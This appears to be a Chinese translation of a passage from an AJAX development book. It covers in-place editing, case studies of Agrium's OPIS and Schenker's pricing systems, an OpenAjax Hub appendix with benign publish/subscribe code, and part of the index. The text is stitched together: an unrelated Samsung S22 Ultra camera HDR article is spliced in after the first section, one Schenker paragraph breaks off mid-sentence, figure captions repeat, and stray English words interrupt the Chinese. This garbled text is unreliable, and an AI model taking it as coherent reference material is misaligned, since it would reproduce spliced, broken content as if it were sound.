由于`AJAX`能够保持客户端和远程数据模型的同步，就地编辑允许用户即时编辑文档内容，而无需特殊的管理员视图。

就地编辑的概念既带来了可用性挑战，也提供了回报。虽然用户可能在电子表格中熟悉这个概念，但它对于基于Web的应用程序来说是新的。大量使用主动视觉提示，例如鼠标悬停、工具提示和高亮显示，对于传达就地编辑的功能是必要的。保留接受确认的需求也必须与维持优雅工作流的期望相平衡。用户的更改是否应立即提交到数据库？或者它们应该被存储在缓冲区中，并通过用户点击保存按钮一次性保存？用户是否期望他们的更改是永久性的？或者他们期望自由编辑并在以后放弃？这些问题必须根据所考虑的特定使用场景以及最终用户的能力来回答。

## 使用三星 S22 Ultra 相机克服视频拍摄中的 HDR 挑战

**作者：** 托马斯·福克斯

本文将探讨如何使用三星 S22 Ultra 相机在具有挑战性的高对比度情况下拍摄美丽且自然的视频。通过了解相机的工作原理并使用正确的技巧，您可以创建忠实于原始场景的令人惊叹的视频。我们还将讨论这项技术的挑战和局限性，以及如何克服它们，包括编辑自然视频。

在当今高端智能手机的世界中，这些设备内置的相机正变得越来越精密，能够拍摄令人惊叹的图像和视频。然而，尽管有这些进步，对于许多摄像师来说，在高对比度情况下拍摄高质量视频仍然是一个挑战。最显著的问题之一是处理高动态范围（HDR）场景时可能出现的不自然外观。三星的“场景优化器”是一项自动调整相机设置以产生最佳可能结果的功能。虽然场景优化器通常在其功能方面做得非常好，但对于具有非常高动态范围的场景，它有时可能会产生不自然的外观，这意味着场景中最亮和最暗部分之间的对比度非常大，导致暗区域过亮和/或亮区域过暗。然后相机会尝试以可能使视频看起来人工或过度处理的方式进行补偿。对于想要拍摄忠实于原始场景的自然视频的摄像师来说，这可能尤其令人沮丧。

问题的根源在于相机在拍摄后处理图像的方式。当您将相机对准具有广泛亮度范围的场景时，相机传感器捕获的图像基本上是该场景的一小片。问题在于相机有限的动态范围——场景中最暗和最亮部分之间的比率——意味着相机必须进行一些调整才能获得尽可能好的图像。在高对比度场景的情况下，相机的软件会尝试以令人愉悦的方式同时呈现阴影（暗区域）和高光（亮区域）的细节。然而，问题在于这个过程可能导致不自然的外观，其中阴影被提升到看起来平坦的程度，或者高光被降低到失去细节的程度。这种过度处理会使视频呈现“绘画感”或“塑料感”，不能准确地代表实际场景。

首先想到的问题可能是：如果高对比度场景在标准相机拍摄时看起来不自然，那么当我们用眼睛观察时，它看起来也是那样的吗？我们的视觉感知实时处理场景，适应变化的亮度水平。我们将深阴影感知为暗，将明亮的天空或窗户感知为亮，但这些元素的组合对我们来说看起来很自然。另一方面，相机有一个固定的传感器，必须尝试在有限的色调范围内表示所有这些元素，这就是不自然外观出现的原因。当相机过度提升阴影时，阴影和高光之间的对比度降低，场景看起来可能很平淡。同样，如果高光被过度降低，也会失去它们的亮度和温暖感。在现实世界中，人类视觉系统可以处理比典型相机传感器更宽的亮度范围，这种不匹配是问题的根本原因。然而，三星 Galaxy S22 Ultra 使用的 HDR 录制，是一种试图通过在后期处理中组合多个曝光来弥合这一差距的尝试，以创建更接近我们自身眼睛所感知的更宽广的动态范围。特别是，三星 S22 Ultra 使用复杂的 HDR 算法，试图在阴影和高光中捕获尽可能多的细节，同时仍尝试产生自然的视频。

**相关文章：** [4 个三星 Galaxy S22 Ultra 相机技巧和窍门](https://www.photoforum.net)

# Agrium 将 AJAX 整合到业务运营中

Agrium 拥有超过 7,000 名员工，其开发人员一直在寻找让应用程序更高效的方法。该公司希望开发一个全公司范围的 Web 应用程序，以帮助工厂员工实现更高效的沟通和工作流程。为此，开发人员开始认真研究`AJAX`。

## 背景

Agrium 公司总部位于加拿大阿尔伯塔省卡尔加里（在纽约证券交易所和多伦多证券交易所上市，股票代码为 AGU），是加拿大最大的公开上市的农业零售商，也是世界上最大的农作物营养生产商之一，2005 年销售额约为 33 亿美元。Agrium 的全球业务遍及北美和南美，在美国、阿根廷和智利拥有超过 500 个零售中心。凭借在北美和阿根廷的 19 个批发制造工厂以及 5 个特种产品工厂，Agrium 每年生产并销售超过 800 万吨化肥产品，包括氮肥、钾肥、磷肥、硫酸盐和特种肥料，销往全球 30 多个国家。

## 挑战

运营信息系统（OPIS）项目的创建是为了满足这些流程现代化的需求和机遇。运营信息系统（OPIS）项目的目标是提供一个平台，以提高以下方面的效率：

- 管理层向操作班组下达订单的沟通
- 轮班情况的记录，供其他班组审阅
- 运营目标的沟通和跟踪
- 提供一个简单的界面来访问`SAP`数据和实验室分析（LIMS）数据，为工厂操作员在一个位置提供当前的重要信息
- 停机时间和限制偏差的跟踪与报告
- 安全关键缺陷的记录和监控

除了这一目标外，OPIS 团队还希望更新的信息系统能够帮助 Agrium 各站点之间分享关键经验——这对于 Agrium 这样规模的企业来说一直是一个挑战。

一个 Web 应用程序的开发工作开始了，该应用最终将服务于超过 1,000 名日常用户。这个被称为 OPIS 的系统将基于`Java`后端，主要绑定到`Oracle`数据库。Agrium 的高级开发人员 Mike Hornby-Smith 知道，许多使用该应用程序的生产设施位于偏远地区，可用带宽有限。过去，应用开发团队的方法一直是以最轻量的方式交付功能性应用程序。"这意味着不使用`Flash`或流媒体视频等高带宽技术，少用或不用图形，也不大量使用框架，以实现最少的内容重新加载，"Hornby-Smith 说。

## 解决方案

由于带宽限制以及对高效用户体验的需求，开发团队开始研究`AJAX`。`AJAX`提供了 Web 应用程序进化中框架之后的下一个合理阶段。对于经常变化的数据，它的开销极小，同时提供更丰富的用户体验，更接近桌面应用程序，"Hornby-Smith 说。

OPIS 应用程序（见图 11.2 和 11.3）围绕操作员仪表板屏幕构建，该屏幕包含工厂运营中最相关和最易变的数据。变更必须快速可用，并带有直观的视觉提示。`AJAX`非常适合解决这个问题，因为可以通过定期的`XHR`服务器请求偶尔轮询服务器以检查新数据，而无需进行耗成本的页面刷新。

该应用程序开发的一个亮点是使用`AJAX`对用户体验产生的影响。"该应用程序肯定比以前任何应用都更丰富、响应更迅速，而且不牺牲性能。`AJAX`还让我们打破了一些用户与 Web 应用程序相关的固有模式，"Hornby-Smith 说。

然而，该项目并非没有挑战。一些困难归因于学习新技术时正常的成长痛苦："使用`AJAX`进行文件上传很棘手；`AJAX`请求有时会剥离回车符，而为了使用`JSON`作为传输方法，对引号进行三重嵌套尤其具有挑战性，"Hornby-Smith 评论道。他还指出，尽管遇到了一些技术问题，`AJAX`的努力是值得的："……最终，优势 outweigh 了劣势。"

*图 11.3 基于 AJAX 的网格显示来自异步 AJAX 请求的运营目标*

## 使用的技术

OPIS 构建在一个 n 层 J2EE 框架之上，使用`servlet`、`Jakarta Velocity`模板和各种`AJAX`技术开发。它在后端使用了专用`Oracle`数据库和`SAP BAPI`函数调用的组合。虽然最初进行了一些使用`AJForms`框架的开发，但之后被移除并替换为纯`DWR`。"我们很幸运能够控制用户的桌面，并提前确保了浏览器版本和兼容性，"Hornby-Smith 说。该应用程序编写为支持`Internet Explorer`，所有目标机器上都安装了该浏览器。

## 成果

2006 年初，该应用程序已经部署到两个生产设施，用户超过 500 人。每天有多达 150 名活跃用户在使用该应用程序。计划在今年年底前将该应用程序部署到更多设施，并在 2007 年部署到少数几个站点。当完全实施时，预计 OPIS 将拥有超过 1,000 名日常用户。

> "我们预计将在未来几年内继续使用该应用程序，"Hornby-Smith 说。所有设施对桌面配置的控制使这成为可能。根据开发团队收到的用户反馈，从组织的角度来看也很可能如此："用户们一致认为，它比我们的传统 Web 应用程序 definitely 更具专业感。我们认为`AJAX`与我们的应用框架非常契合。"

> "在未来，我认为我们会尝试使用一个能更多地处理`AJAX` '管道' 的框架。在这个项目中，我们学会了如何使用`AJAX`，如果有更多时间，我们肯定会更仔细地研究`Dojo`、`Prototype`、`Rico`等框架。"

# AJAX 助力国际运输和物流公司

Schenker 成立于 1872 年，已成长为世界上最大的货运代理公司之一。2006 年，该公司在 1,100 个办事处雇用超过 42,000 人，收入近 114 亿美元。与许多其他如此规模和复杂性的企业一样，Schenker 深陷于复杂、低效有时甚至过时的资源规划系统中。航运业务 surprisingly 复杂，即使回答运送某物需要多少钱这样简单的问题也可能很复杂。应用专家 Christian van Eeden 的任务是帮助 Schenker 构建新的软件系统，减少获取这些信息所需的人工工作量。为此，他发现了`AJAX`能够帮助的潜力。

## 背景

作为全球货运代理行业的竞争者，Schenker 物流需要准确且快速地获取成本和定价信息。这涉及整合分散和多样化的信息源。最终结果涉及员工手动将信息从电子邮件和`PDF`传输到`Excel`电子表格，再传到`MS Access`数据库。这是一种 decidedly 低效的运营方式，对运输货物的流程没有任何价值增值。Van Eeden 的目标是帮助创建一个在线内部定价系统，能够处理和分析大量原始数据，为人员和客户提供清晰简洁的输出，回答"从 A 到 B 的运输成本是多少？"

运输的挑战在于数据之间的关联性。考虑从 A 到 B 运输的例子。一个供应商会提供特定类型货物从 A 到 C、C 到 D 以及 D 到 B 的成本。每一段路线都有相关成本，加上额外的费用、收费和条件。除此之外，A、B、C、D 中的每一个点都可能有关联的费用和收费。再乘以 50 个供应商，加上每种货物的不同成本，数据量几乎呈指数级增长。

## 挑战

新应用程序的首要挑战是为员工提供一种简单的方式来回答关键的成本问题。为此，必须有一种流畅的方式让员工在`Excel`电子表格和应用程序之间传输信息。该软件还必须聚合并使大量数据可搜索。

在任何全球应用中，主数据和基础数据的数量都可能令人震惊。航运业也不例外。在 Schenker，影响成本的变量包括位置（6 万个注册城镇的数据库，加上无数更小的地点）、货币、货物类型、用户、客户、合作伙伴、涉及的办事处以及所需设备。用户需要在录入系统中随时获取所有这些信息。

瘦客户端应用程序的问题与 Van Eeden 在 Schenker 使用的信息架构有关。关系数据库通过外键关系很好地促进了相关数据，强制执行所有修改规则，确保数据完整性。这带来了一个常见的

## 解决方案

2000年初，旨在成为Schenker运费计算系统第一版的开发工作开始了（参见图11.4和11.5）。当时已知，性能是获得用户接受并在取代手动流程方面实现可衡量收益的关键。`PHP`作为中间层，将`MS SQL`数据库与经典的`DHTML`客户端接口连接起来。客户端`JavaScript`允许图像的动态悬停效果、表单验证、内容调整，以及诸如按钮、选项卡和对话框等众多控件的愉悦交互。但在静态`JavaScript`的浮华表象背后，需要解决棘手的架构问题。

庞大的数据集规模引发了可用性问题。Van Eeden开始寻找替代他所实施的基本`HTML`和`JavaScript`界面的方案。“我的`AJAX`经验始于探索用Mozilla `XUL`构建第二版的可行性。纯`XUL`没有数据访问层。与数据库通信、提取数据的唯一方式是通过`XmlRpcClient`。于是我学习了`XmlRpcClient`，并很快发现它不仅可以在`XUL`中使用，实际上，它一直可在`JavaScript`中使用。”（参见图11.4。）

**图11.4** 存储实体关系的大型JavaScript数组

有了`XHR`进行数据访问，很明显，可以使用纯`JavaScript`而非专有的`XUL`框架来提供相同的交互性和流畅的用户体验。“在使用`XmlRpcClient`之前，我在应用程序中使用了大量的`JavaScript`缓存。这减少了与服务器的往返次数，对于一个内网应用程序来说，带宽其实并不重要。但通过使用`XHR`，我意识到那些都不再需要了。任何时候我想内联查询数据库，我都可以做到。然后，通过一些简单的`DOM`操作，将查询到的数据动态插入页面。”Van Eeden说。（参见图11.6。）

**图11.5** 存储实体关系的大型JavaScript数组

**图11.6** 使用`XHR`自动持续检索数据，使大型数据集的导航变得无缝流畅

`XHR`也为可扩展性问题提供了直接的答案。既然动态数据检索成为可能，扩展至巨大数据集的解决方案也变得明朗。内联实时搜索被用来获取用户输入并显示结果，无需页面重新加载。对于前面的例子，省份/州搜索会根据所选国家，将搜索范围限制在该国家内的省份和州。还采用了下钻模式来汇总数据集，并根据需要提供查看关系数据的“透视镜”视图。

纯粹的数据录入也因`JavaScript`/`XHR`的组合而变得便捷。由于`Excel`电子表格是Schenker内部流程如此重要的一部分，其中一些功能需要迁移到Web上。Van Eeden试图在新应用程序中保留电子表格的一些固有优势：“在Schenker，如今电子表格被用于各种报告和一般数据管理，其使用已经超出了它们原本设计的功能范围。易用性、录入速度、格式控制以及公式功能，都使电子表格成为数据管理的一个极具吸引力的选择。那么问题是我们如何在基于Web的结构化数据录入表单中实现这些？”开发者曾考虑构建复杂的Web表单，用`HTML`矩阵模拟电子表格的通用外观来设置字段，但这种技术存在主要缺点：难以分离离散数据，且总体上显得笨重。

类似电子表格的`AJAX`控件的出现有助于解决这些问题。基于动态数据处理的概念，模仿电子表格样式数据录入的`AJAX`组件已经出现。这些组件直接链接到数据源，允许在类似表格的界面中显示和编辑数据。在简单层面上，它允许开发者直接将数据库表发布到Web上。数据库字段表示为列，每条记录表示为一行。单元格的内联编辑允许快速更改，而自动保存则确保所有内容都保存回数据库。Van Eeden使用了一个商业`AJAX`组件来模拟`Excel`电子表格的行为，提供与`Excel`的复制粘贴互操作性，并实现与服务器的实时通信，以便将数据提交到数据库并以按需方式访问外部信息。现在，由于`AJAX`，Schenker拥有了集中式Web应用程序的分发和架构优势，以及富客户端应用程序的可用性优势。关键业务数据可以实时提供，用户将通过利用`DHTML`和`JavaScript`，更快、更无缝地处理业务。

## 使用的技术

Schenker新信息系统的开发工作在`AJAX`成为一个流行术语之前很久就开始了。尽管对Mozilla的`XUL`（XML用户界面语言）进行了一些研究，但应用程序的第一版是使用精简的`HTML`和`JavaScript`编写的。后来，其中一些功能被重写，使用了更多的`JavaScript`并结合了`XHR`。该系统的目标浏览器是`Internet Explorer 5+`。在后端，`Microsoft SQL Server`连接到`PHP 4`中间层。除少数商业组件外，所有`AJAX`代码都是自主开发的。“直到最近，还没有很多成熟的`AJAX`框架，所以最初的开发是使用各种`DHTML`控件完成的，比如选项卡、可排序表格、树形结构等。其余部分都是内部开发的，”van Eeden说。`XML`被用作传输协议，用于在浏览器和`PHP`后端之间通信数据。

## 成果

该应用程序最终部署给了超过1000名个人用户。Van Eeden开始收到积极的反馈。`AJAX`的使用被认为是成功的。“使用`AJAX`在速度和响应性方面都带来了巨大的回报。我们在开发中也获得了许多新的自由。我们不再受限于传统的`POST`和`GET`工作流程。在一个无连接、无状态的数据驱动Web应用程序中，设计师常常渴望桌面应用程序世界的直接连接性，在那里直接访问数据往往被视为理所当然。这就是`XHR`真正的力量。”

目前，Schenker的开发团队正在将系统升级到使用`PHP 5`，因为它原生支持`XML`处理。“虽然`XML`有时看起来过于抽象而难以实用，但作为一种需要普遍理解的通信媒介时，它作为一种传输方法大放异彩。”现在团队正抓住机会使用经过测试的开源工具包来辅助开发。`Prototype`框架被广泛使用，以替代许多自主开发的`AJAX`代码。

反思来看，开发者面临的一些挑战源于缺乏合适的`JavaScript`调试和开发工具。“有时事情很难理解。在`JavaScript`和`PHP`等不同编程语言之间切换可能具有挑战性。缺乏调试工具也是个问题。事实上，如果没有代理跟踪工具，`XHR`请求只会悄无声息地失败，这会使调试变得困难。幸运的是，解决这个问题的技术正在变得可用。”van Eeden说。“用户对应用程序评论最多的一点总是速度。`AJAX`在这方面绝对有帮助，通过减少页面重新加载次数来提高应用程序的响应速度。”

从编程角度来看，`AJAX`已经非常成功。它简化了应用程序，使其更像一个常规的桌面程序。"

## 总结

许多因素推动了`AJAX`在企业中的应用，但贯穿这三个案例表面之下的一个共同主题是，渴望提供尽可能最佳的用户体验。在这三个案例中，开发者们都在处理一些对用户体验有重大影响的问题——无论是显示下钻信息的能力、无缝滚动浏览海量数据集，还是始终在仪表板页面上显示最新的数据。开发者使用`AJAX`来修复他们认为传统Web范式中存在但之前无法解决的严重问题。为什么大型企业的开发者对用户体验如此感兴趣？除了"美元和美分"的论据¹之外，企业开发者还面临着诸如最终用户接受度以及与其他内部开发团队竞争等挑战，而这场竞争最终将在真实用户面前展开，由他们来决定哪个产品更胜一筹。

另一个有趣的趋势是，第三方，尤其是开源框架用于开发`AJAX`的采用率虽然缓慢但持续增长。对`Prototype`、`DWR`和`Dojo`等工具包以及一些商业框架的兴趣，无疑正在转化为求职者想要进入《财富》500强雇主群体所需的新技能要求。当需要高度专业化的功能时，CTP、Agrium和Schenker都在其应用程序中内置了至少一两个商用现货、`AJAX`或`DHTML`/`JavaScript`组件。尽管已经存在一个`AJAX`组件的市场（快速浏览ComponentSource.com就能证明这一点），但这可能为那些想要基于这些框架进行构建或扩展的公司揭示了更大的机会。

似乎，在这些案例中开发者选择`AJAX`的另一个原因在于其渐进式特性。因为`AJAX`已经得到了现有客户端浏览器的支持，用户不需要做任何事情，比如下载插件来体验它。因为`AJAX`直接与现有的Web标准（`JavaScript`、`CSS`、`XML`和服务器技术）协同工作，它不需要在应用程序的架构或编写方式上进行大规模的范式转变，甚至可以在后期"附加"上去，正如在几个案例中所做的那样。另一个支持选择`AJAX`渐进式特性的可能因素是，它利用了Web应用程序开发者多年来已经掌握的技能——主要是`JavaScript`和`CSS`。结果是，这似乎是一种高回报、低风险的技术选择，它不仅提供了以前不可能实现的功能类型，而且还改善了用户体验。

¹ http://www.developer.com/xml/article.php/3554271

## 资源

- 美国国防部：http://www.defenselink.mil/
- CACI：http://www.caci.com/
- Corporate Technology Partners：http://www.ctpartners.com/
- Seaworthy Systems：http://www.seaworthysys.com/
- Agrium：http://www.agrium.com
- Schenker Logistics：http://www.schenker.com
- `Struts`：http://struts.apache.org/
- Microsoft SharePoint：http://www.microsoft.com/windowsserver2003/technologies/sharepoint/default.mspx
- `DWR`：http://getahead.ltd.uk/dwr/overview/dwr
- `AJForms`：http://ajform.sourceforge.net/
- Mozilla `XUL` Framework：http://developer.mozilla.org/en/docs/XUL
- `Dojo`：http://dojotoolkit.org/
- `Prototype`：http://prototype.conio.net/
- `Rico`：http://openrico.org/
- `Jakarta Velocity`：http://jakarta.apache.org/velocity/

# 附录 A

## OpenAjax Hub

OpenAjax Hub（“中心”）旨在解决Web应用程序开发者需要在同一应用程序中结合使用多个`AJAX`运行时库的场景。中心提供标准的`JavaScript`，当其与一个支持`AJAX`的Web应用程序一起引入时，能够促进多个`AJAX`工具包在同一个页面上协同工作。

AJAX应用程序开发者的需求多种多样，因此当今市场上200多种AJAX产品的架构和功能也千差万别。对于一些开发者来说，最重要的因素是找到一个能与后端服务器紧密集成的`AJAX`工具包。

对于其他开发者来说，最重要的因素是特定客户端组件的可用性（例如，丰富的数据网格小部件或交互式图表小部件）。因此，AJAX生态系统已经发展到在大多数情况下，开发者都能找到符合每个特定需求的`AJAX`工具包，但通常开发者会发现，他必须在同一Web应用程序中混合搭配多个`AJAX`工具包来满足其所有要求。

中心的一个重要应用场景是门户和混搭（mashups），开发者在其中创建一个由松散组装的预打包应用程序组件构成的页面。一个复杂的门户或混搭几乎肯定会引入使用多个不同`AJAX`工具包构建的`AJAX`驱动组件。

## 关键特性：中心的发布/订阅管理器

中心的关键特性是其发布/订阅管理器（“发布/订阅管理器”）。发布/订阅管理器允许混搭中的一个部分向其他应用程序组件广播事件。例如，假设有一个日历小部件允许用户选择特定日期。混搭可能有多个UI组件，每当选择新的日历日期时，它们都需要更新其视觉外观。在这种情况下，日历小部件会发布一个“新日历日期”事件，其他可视化小部件会订阅该事件。因此，发布/订阅管理器的通用消息传递优势是使用不同`AJAX`工具包构建的组件之间的关键集成机制。

中心的发布/订阅管理器提供了各种高级功能，例如对事件名称中通配符的强有力支持，这些功能并未在以下示例中展示。

## 示例

假设我们有一个商业智能应用程序，它使用以下`AJAX`运行时库：

- `UTILS.js`，为浏览器的`JavaScript`环境提供非常有用的扩展，例如`XMLHttpRequest API`
- `CALENDAR.js`，提供日历小部件
- `CHARTS.js`，提供图表小部件
- `DATAGRID.js`，提供交互式数据网格小部件

该应用程序有一个日历小部件，并允许用户在图表小部件（例如，每日状态、每周状态、每月状态和每年状态的条形图）和数据网格小部件（例如，区域数据与全国数据，两者都带有用户选择的关注列）形式的多种数据视图中进行选择。

每当在日历小部件中选择一个新日期时，各种用户指定的可视化组件（即图表和/或数据网格小部件）都需要更新。

实现此应用程序的一种方法是在其他`AJAX`库之前加载OpenAjax Hub的`JavaScript`。例如：

```html
```


```html
<html>
  <head>
    ...
    <script type="text/javascript" src="OpenAjax.js"></script>
    <script type="text/javascript" src="UTILS.js"></script>
    <script type="text/javascript" src="CALENDAR.js"></script>
    <script type="text/javascript" src="CHARTS.js"></script>
    <script type="text/javascript" src="DATAGRID.js"></script>
    ...
  </head>
  ...
</html>
```

一些 AJAX 运行时在其标准发行版中包含了 `OpenAjax Hub`。在这种情况下，只要给定的 AJAX 运行时的 JavaScript 在其他兼容 OpenAjax 的运行时加载之前被加载，可能就不需要为 `OpenAjax.js` 包含单独的 `<script>` 元素。

为了使应用程序工作，开发者注册了一个回调函数，每当用户在日历小部件中选择一个新日期时，就会调用该函数。然后，此回调函数使用 `OpenAjax Hub` 的 `publish()` 函数广播新日期事件：

```javascript
<script type="text/javascript">
  ...
  function MyCalendarCallback(...) {
    OpenAjax.hub.publish("myapp.newdate", newdate);
  }
  ...
</script>
```

然后，开发人员加入代码，使每个图表组件和数据网格组件都订阅新的日期事件，并提供回调函数。各回调函数随后相应地更新给定的可视化组件：

```javascript
<script type="text/javascript">
  ...
  function NewDateCallback(eventname, publisherData, subscriberData) {
    ...update the given visualization widget...
  }

  OpenAjax.hub.subscribe("myapp.newdate", NewDateCallback);
  ...
</script>
```


## 工具包对 OpenAjax Hub 的未来支持

OpenAjax 联盟正在与业界合作，以实现对 OpenAjax Hub 的广泛支持。特定的 AJAX 工具包可以通过以下方式支持 OpenAjax Hub：

- AJAX 工具包可以包含 Hub（这是最理想的方式）。Hub 可以用不到 3K 的 JavaScript 代码实现，因此一些 AJAX 工具包会直接将 Hub 作为其工具包的标准组件进行打包。
- AJAX 工具包可以在 Hub 存在时使用它。其他 AJAX 工具包可能决定不在其分发版本中附带 Hub，而是检查 Hub 是否已被预先加载，如果已加载，则使用 Hub 的服务。
- 第三方可以开发适配器。对于大多数工具包，第三方开发人员可以编写少量的 JavaScript 代码，为给定的工具包添加 Hub 支持。

当 AJAX 工具包内置了对 Hub 的支持时，应用程序开发人员的任务会更轻松，但通过编写或找到一个简单的适配器，Hub 仍然可以与尚未实现 Hub 支持的工具包配合使用。

# 索引

## 符号

`$$` 函数，153  
`@cc_on` 语句，98  
`@OuputCache` 页面指令，266

## A

抽象声明（自定义声明式组件），163-167  
抽象（SOA），300  
无障碍访问性，358  
识别有需求的用户，359  
JavaScript 与无障碍访问性，360  
键盘，364-366  
屏幕阅读器，360-364  
`ActiveXObject`（XHR 对象），70  
ADA（美国残疾人法案），409-410  
添加/编辑客户窗口，191-192  
`addEventListener()` 方法，64-66  
`addRule()` 方法，58  
ADF（Oracle），2  
Adobe

- Captivate，422
- FA Bridge，2
- Flash，21

Agrium Inc. 案例研究，429

- 背景，429
- 挑战，429-430
- 成果，433
- 解决方案，430-431
- 应用的技术，432

AJAX（异步 JavaScript 和 XML），1

- 无障碍访问性，358-366
- 替代方案，19-22
- 开发挑战，340-358
- Flex，21
- Java 小程序，20
- OpenLaszlo，22
- 子组件，339
- 测试，367-370
- XAML，20
- XUL，20
- 应用程序，16-17
- 优势，2
- 引导启动，91
- 浏览器技巧，96-100
- `onload` 事件，91-95
- 构建组件，116-120
- Controller，121-130
- 采用的驱动因素，10
- 以数据为中心，15
- 增量升级，16
- 网络利用率，14-15
- 服务器独立性，16
- 可用性，10-14
- HTML 标准，86
- 盒模型，89-91
- 文档类型定义，87-88
- 工作趋势，9
- Model，107-116
- 编程模式，19
- 资源，24
- 富互联网应用程序，1-3
- 企业厂商的支持，2
- 技术，17-18
- 可用性，6-8，339
- 在企业中的应用，8-10
- Web 浏览器与 AJAX，83-86

AJAX 的替代方案

- Adobe Flash，21
- Apollo，21
- Flex，21
- Java 小程序，20
- OpenLaszlo，22
- XAML，20
- XUL，20

`AmberJack`，422  
美国残疾人法案（ADA），409-410  
动画模式，374  
AOP（面向切面编程），131-132  
Apache，文件压缩，236  
Apollo，21  
`appendChild()` 方法，47  
应用服务器，负载均衡与应用服务器，280  
应用程序，16-17

- 引导启动，91
- 浏览器技巧，96-100
- `onload` 事件，91-95
- 构建声明式编程，140-141
- 构建 Web 服务，296-297
- 设计，184
- 建模，184-185
- MVC 模式，185-186
- 预防性能问题，186-188
- 原型开发，188-208
- 测试，208-211，216-231

`apply` 方法，38  
架构，247

- 异步消息传递，249-250
- 缓存，255-256
  - 基本缓存，256-257
  - 浏览器中的缓存，261-263
  - 组件中的缓存，257-261
  - 数据库中的缓存，269-270
  - 服务器上的缓存，265-269
- 并发性，270
  - 自动冲突解决，275-276
  - 冲突识别，272-274
  - 冲突解决，275
  - 乐观锁，272
  - 悲观锁，271
  - 只读锁，271
- 离线 AJAX，282-283
- 轮询，250-251
- 资源，293-294
- 伸缩性，278-281
- 服务器推送，251-253
- 紧急性节流，276-278
- 层次，247
  - 业务逻辑，248
  - 客户端，248
  - 集成，248
  - 表示层，248
- 请求跟踪，253-254

ASP.NET，2

- DataGrid 控件，84
- 定义网页，140-141

面向切面编程（AOP），131-132  
风险评估，413  
避免镀金，419-420  
有效的收入模型，420-421  
Google Sitemaps，417-418  
维护和测试，420  
PE（渐进增强），414  
专用 AJAX 框架/组件，414  
无侵入式 JavaScript，415-416  
用户培训，421-422  
视觉提示/示能性，418-419  
关联数组，27  
异步 JavaScript 和 XML。参见 AJAX  
异步消息传递，249-250  
异步请求（XHR），72-73  
异步服务器交互，12-13  
`attachEvent()` 方法，64-67，127  
攻击签名（XSS），319-321  
属性

- BIND，158
- class，57
- DATAFLD，157
- DATASRC，157
- DEFER，97
- MODEL，158
- NODESET，158
- REF，158
- 选择器，54-55
- 单节点绑定，158
- 自动提交，357-358

自动冲突解决，275-276  
自动化测试，222-224  
自治性（SOA），299

## B

后退按钮，340-343  
带宽消耗，186  
`baseConstructor` 属性，37  
`BaseTest` 类，219  
基本身份验证（HTTP），336  
基本缓存，256-257  
行为组件（自定义声明式组件），152-156  
基准测试，197-199  
AJAX 的优势，2  
最佳实践，风险管理，413

- 避免镀金，419-420
- 有效的收入模型，420-421
- Google Sitemaps，417-418
- 维护和测试，420
- PE（渐进增强），414
- 专用 AJAX 框架/组件，414
- 无侵入式 JavaScript，415-416
- 用户培训，421-422
- 视觉提示/示能性，418-419

BI（商业智能），84  
BIND 属性，158  
事件绑定，62

- 内联事件，62-63
- 编程式事件处理，63-64
- 注册，64-65

书签功能，340  
浏览器历史记录，343-344  
可用性挑战的解决方案，344  
用于导航的 AJAX，349  
Hash 方法，344-347  
iFrame 方法，347-349  
Safari，350-352  
布尔原始类型（JavaScript），26  
引导启动 AJAX 应用程序，91  
浏览器技巧，96

- 延迟脚本，97-98
- `document.onreadystatechange` 事件，99-100
- `DOMContentLoaded` 事件，97
- 脚本放置，96
- `onload` 事件，91-95

盒模型，89-91  
`box-sizing` 规则（CSS3 规范），91  
BPM（业务流程管理），301  
浏览器

- 引导启动 AJAX 应用程序，96
- 延迟脚本，97-98
- `document.onreadystatechange` 事件，99-100
- `DOMContentLoaded` 事件，97
- 脚本放置，96
- 浏览器中的缓存，261-263
- 能力，技术风险，403-404
- 历史记录，书签功能，343-344
- 测试，224

`buildCustomerList()` 函数，79  
构建应用程序

- 声明式编程，140-141
- Web 服务，296-297

构建组件，168

- 循环闭包，177-180
- 与服务器的连接，173-177
- 功能，168-173

商业智能（BI），84  
业务逻辑层，248  
业务流程管理（BPM），301  
BZ Research 调查，8

## C

- `Cache-Control` 头，263
- 缓存
  - 自动提交，357-358
  - 后退按钮，340-343
  - 基本缓存，256-257
  - 书签功能，340
  - 浏览器历史记录，343-344
    - 解决方案，344-352
  - 浏览器中的缓存，261-263
  - 组件中的缓存，257-261
  - 数据库中的缓存，269-270
  - 服务器上的缓存，265-269
  - 页面大小，352-353
  - 解决方案，355-357
  - 可用性挑战，340
    - 资源，293
- `call` 方法，38
- 调用栈面板（Venkman 调试器），227
- Camtasia，422
- `cancelBubble` 属性，61
- 层叠（CSS），49-50
- 层叠样式表。参见 CSS
- 案例研究，440-441
  - Agrium Inc.，429
    - 背景，429
    - 挑战，429-430
    - 成果，433
    - 解决方案，430-431
    - 应用的技术，432
  - CTP（Corporate Technology Partners），425
    - 背景，425
    - 挑战，426-427
    - 成果，428
    - 解决方案，427
    - 应用的技术，427
  - DOD（美国国防部），425
    - 背景，425
    - 挑战，426-427

# 索引

- 结果，428
- 解决方案，427
- 应用技术，427
- 资源，441
- Shenker，433
  - 背景，434
  - 挑战，434-435
  - 结果，439-440
  - 解决方案，436-438
  - 应用技术，438-439
- `catch` 块，40
- `CFHEADER` 标签，268
- AJAX 开发面临的挑战，340
- `changeStyle()` 方法，59
- `changeStyleSheet()` 方法，59
- 类
  - 属性
    - 自定义声明式组件，149
    - 动态样式，56-57
  - `Component`，169
  - `Customer`，177
  - `CustomerFactory`，176
  - `DataModel`，108
  - `HttpRequestCache`，258
  - 继承，34-38
  - `mouseOver`，58
  - `RemoteDataModel`，173-176
- 选择器，54-55
- `SimpleDataModel`，173
- `SimpleGrid`，169
- `SubjectHelper`，109
- 经典继承，34-38
- `className` 属性，56
- `clearInterval()` 函数，251
- 客户端层，248
- 客户端-服务器消息传递（XHR），70
  - 数据格式，78-81
  - XMLHttpRequest 基础，70-77
- 客户端
  - 异步消息传递，249-250
  - 针对客户端的攻击，317
  - 服务器推送，251-253
  - 节流，276-278
- 隐藏，411
- 闭包（JavaScript），28-29
- 代码最小化，JavaScript，233-235
- Comet，252-253
- `completeCallback` 函数，75
- `Component` 类，169
- 基于组件的 AJAX，84-86
  - 组件，135
  - 构建，168
  - 循环闭包，177-180
  - 与服务器的连接，173-177
  - 功能，168-173
  - 缓存，257-261
- 声明式，139
  - 组件配置的替代方案，147-148
  - 自定义声明式组件，148-167
  - 服务器端声明式编程，140-147
- 命令式，135-139
- 可组合性（SOA），300
- 压缩，JavaScript，232
  - 代码最小化，233-235
  - 预期结果，238
  - GZip 压缩，235-237
- 并发性，270
  - 自动冲突解决，275-276
  - 冲突识别，272-274
  - 冲突解决，275
  - 离线 AJAX，292
  - 乐观锁，272
  - 悲观锁，271
